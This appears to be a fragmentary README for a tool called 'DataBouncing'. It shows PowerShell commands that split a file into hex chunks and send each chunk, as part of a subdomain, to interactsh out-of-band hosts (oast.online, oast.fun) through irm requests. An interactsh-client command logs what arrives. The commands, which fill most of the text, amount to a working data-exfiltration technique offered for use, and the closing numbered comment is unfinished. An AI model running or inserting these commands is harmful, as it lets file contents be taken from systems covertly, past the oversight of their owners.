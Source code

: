 # DataBouncing

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```


`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
foreach ($i in $x.PSObject.Properties) {$secret = $i.Value;irm "xregex.$secret.cln6u1qilvdt6859fml0quuh98ohq8huk.oast.fun"}
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```

